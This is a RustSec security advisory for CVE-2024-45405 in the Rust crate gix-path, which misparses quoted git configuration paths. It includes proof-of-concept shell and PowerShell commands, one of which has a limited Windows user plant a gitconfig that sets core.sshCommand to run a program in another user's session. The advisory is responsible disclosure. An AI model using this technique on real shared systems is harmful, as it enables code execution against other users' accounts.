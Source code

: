 ```toml
[advisory]
id = "RUSTSEC-2024-0371"
package = "gix-path"
date = "2024-09-06"
url = "https://github.com/Byron/gitoxide/security/advisories/GHSA-m8rp-vv92-46c7"
references = ["https://github.com/advisories/GHSA-m8rp-vv92-46c7"]
categories = ["code-execution", "privilege-escalation"]
cvss = "CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N"
keywords = ["escape-sequences"]
aliases = ["CVE-2024-45405", "GHSA-m8rp-vv92-46c7"]
license = "CC0-1.0"

[affected.functions]
"gix_path::env::installation_config" = ["*"]
"gix_path::env::installation_config_prefix" = ["*"]

[versions]
patched = [">= 0.10.11"]
```

# gix-path improperly resolves configuration path reported by Git

### Summary

`gix-path` runs `git` to find the path of a configuration file associated with the `git` installation, but improperly resolves paths containing unusual or non-ASCII characters, in rare cases enabling a local attacker to inject configuration leading to code execution.

### Details

In `gix_path::env`, the underlying implementation of the `installation_config` and `installation_config_prefix` functions calls `git config -l --show-origin` to find the path of a file to treat as belonging to the `git` installation.

Affected versions of `gix-path` do not pass `-z`/`--null` to cause `git` to report literal paths ([`650a1b5`](https://github.com/Byron/gitoxide/commit/650a1b5cf25e086197cc55a68525a411e1c28031)). Instead, to cover the occasional case that `git` outputs a quoted path, they attempt to parse the path by stripping the quotation marks:

<https://github.com/Byron/gitoxide/blob/1cfe577d461293879e91538dbc4bbfe01722e1e8/gix-path/src/env/git/mod.rs#L138-L142>

The problem is that, when a path is quoted, it may change in substantial ways beyond the concatenation of quotation marks. If not reversed, these changes can result in another valid path that is not equivalent to the original.

This is not limited to paths with unusual characters such as quotation marks or newlines. Unless `git` is explicitly configured with `core.quotePath` set to `false`, it also happens when the path contains most non-ASCII characters, including accented or non-English letters. For example, `é` is transformed to `\303\251`, with literal backslashes. (This is an octal representation of the bytes in its UTF-8 encoding. This behavior is not limited to systems that encode paths with UTF-8 on disk.)

Rarely, the configuration file `gix-path` wrongly attempts to open can be created by an attacker who has a limited user account on the system. The attacker would often need to request an account username tailored to carrying out the attack.

### PoC

#### Quick demonstration on Unix

On a Unix-like system in which Git supports no higher scope than `system` for configuration variables (i.e., not on macOS with Apple Git), in a locale that supports UTF-8, with `gitoxide` installed, run:

```sh
mkdir myrepo
cd myrepo
git init
printf '[real]\n\trealvar = realval\n' > 'é'
printf '[fake]\n\tfakevar = fakeval\n' > '\303\251'
GIT_CONFIG_SYSTEM='é' gix config
```

If the above conditions are satisfied and the `gix` command was built against an affected version of `gix-path`, then the last command's output looks something like this:

```text
# From '\303\251' (GitInstallation)
[fake]
        fakevar = fakeval

# From 'é' (System)
[real]
        realvar = realval

# From '/home/ubuntu/.gitconfig' (User)
[init]
        defaultBranch = main

# From './.git/config' (Local)
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```

#### Demonstration across user accounts on Windows

On a test system running Windows on which Git for Windows is *not* installed system-wide—resembling a scenario in which users who wish to use Git are expected to install it themselves for their accounts—create two accounts, with these usernames:

- *Renée*, the target of the attack. This user may be a limited user or an administrator. Its user profile directory is assumed to be `C:\Users\Renée`.
- *Ren*, the user who carries out the attack. This user should be a limited user, since an administrator would not need to exploit this vulnerability to inject configuration. Its user profile directory is assumed to be `C:\Users\Ren`.

As *Ren*, run these commands in PowerShell:

```powershell
$d = "$HOME\303\251e\AppData\Local\Programs\Git\etc"
mkdir $d
git config --file $d\gitconfig core.sshCommand calc.exe
icacls $HOME\303 /grant 'Renée:(RX)' /T
```

(The `gitconfig` file can instead be written manually, in which case *Ren* need not have `git`.)

As *Renée*:

1. Install Git for Windows in the default location for non-systemwide installations, which for that user account is inside `C:\Users\Renée\AppData\Local\Programs`. For a non-administrative installation, Git for Windows will pick this location automatically. Allow the installer to place the directory containing `git` in the user's `PATH`, as it does by default.

   (The scenario can be modified for any location the attacker can predict. So, for example, *Renée* can install Git for Windows with [`scoop`](https://scoop.sh/), and *Ren* could carry out the attack with correspondingly modified path components in place of `AppData\Local\Programs\Git`.)

2. Install `gitoxide` using any common technique, such as by [installing Rust](https://www.rust-lang.org/tools/install) and then running `cargo install gitoxide`.

3. Open a PowerShell window and run a `gix` command that attempts to run the SSH client for transport. For example:

   ```pwsh
   gix clone ssh://localhost/myrepo.git
   ```

   At least one, and usually two, instances of the Windows calculator will pop up. This happens because `calc.exe` was configured in the fake configuration file the user *Ren* was able to cause to be used, by placing it at the location `gix-path` wrongly resolved the path of *Renée*'s own configuration file to.

The `gitconfig` file written by the attacker can be adjusted with an arbitrary choice of payload, or to set other configuration variables.

### Impact

On a single-user system, it is not possible to exploit this, unless `GIT_CONFIG_SYSTEM` and `GIT_CONFIG_GLOBAL` have been set to unusual values or Git has been installed in an unusual way. Such a scenario is not expected.

Exploitation is unlikely even on a multi-user system, though it is plausible in some uncommon configurations or use cases. It is especially unlikely with Apple Git on macOS, due to its very high scoped configuration in `/Library` or `/Applications` that would be detected instead, as in [CVE-2024-45305](https://github.com/advisories/GHSA-v26r-4c9c-h3j6).

The likelihood of exploitation may be higher on Windows, where attacks such as those shown in the Windows proof-of-concept above can be performed due to the status of `\` as a directory separator, and where there is no restriction on usernames containing accented or non-English letters (though the latter is also permitted on some other systems). Even then, complex user interaction is required. In most cases, a system administrator would have to approve an innocuous-seeming username, and then the targeted user (who could be the same or a different user) would have to use an application that uses `gix-path`.

In general, exploitation is more likely to succeed if at least one of the following applies:

- Users are expected to install `git` themselves, and are likely to do so in predictable locations.
- Locations where `git` is installed, whether due to usernames in their paths or otherwise, contain characters that `git` quotes by default in paths, such as non-English letters and accented letters.
- A custom `system`-scope configuration file is specified with the `GIT_CONFIG_SYSTEM` environment variable, and its path is in an unusual location or has strangely named components.
- A `system`-scope configuration file is absent, empty, or suppressed by means other than `GIT_CONFIG_NOSYSTEM`. Currently, `gix-path` can treat a `global`-scope configuration file as belonging to the installation if no higher scope configuration file is available. This increases the likelihood of exploitation even on a system where `git` is installed system-wide in an ordinary way.

However, exploitation is expected to be very difficult even under any combination of those factors.

Although the effect here is similar to [CVE-2022-24765](https://github.com/git-for-windows/git/security/advisories/GHSA-vw2c-22j4-2fh2) once exploited, a greater degree of user interaction would usually be required, and the attack complexity here is much higher because the necessary conditions are uncommon and challenging to predict.

